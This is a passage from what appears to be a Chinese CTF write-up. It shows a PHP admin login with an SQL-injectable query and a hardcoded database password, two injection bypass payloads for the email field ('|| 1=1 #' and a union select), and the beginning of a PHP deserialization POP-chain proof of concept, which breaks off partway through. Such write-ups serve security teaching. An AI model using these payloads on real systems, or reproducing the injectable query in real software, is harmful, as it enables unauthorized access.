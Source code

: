 ```php
        echo json_encode(array('status' => 0,'info' => '不存在邮箱为： '.$email.' 的管理员账号！'));
        unset($_SESSION['captcha_code']);
        exit;
    }

    $pwd = $_POST['pwd'];
    $pwd = md5($pwd);
    $conn = mysqli_connect("localhost","root","123456","xdsec",3306);

    $sql = "SELECT * FROM admin WHERE email='$email' AND pwd='$pwd'";
    $result = mysqli_query($conn,$sql);
    $row = mysqli_fetch_array($result);

    if($row){
        $_SESSION['admin_id'] = $row['id'];
        $_SESSION['admin_email'] = $row['email'];
        echo json_encode(array('status' => 1,'info' => '登陆成功，moectf{testflag}'));
    } else{
        echo json_encode(array('status' => 0,'info' => '管理员邮箱或密码错误'));
        unset($_SESSION['captcha_code']);
    }
}
?>
```

存在sql注入，登录成功即返回flag, 但是or被ban了，还有正则，验证码正常填，在email这里注入，密码随便填

绕过方法很多，简单列举

```sql
123@a.b' || 1=1 #
123@a.b' union select 1,2,3 -- 
```

## pop moe

预期解：

更多详细[pop链构造]serialize/deserialize介绍请见cafebabe的博客 http://blog.steesha.cn/archives/138/

POC

```PHP
<?php
highlight_file(__FILE__);

class class000 {
    private $payl0ad;
    protected $what;

    public function __construct()
    {
        $this->payl0ad = 1;
        $this->what = new class001;
    }
}

class class001 {
    public $payl0ad;
    public $a;
    
    public function __construct()
    {
        $this->a = new class002;
        $this->payl0ad = 'dangerous';
    }
```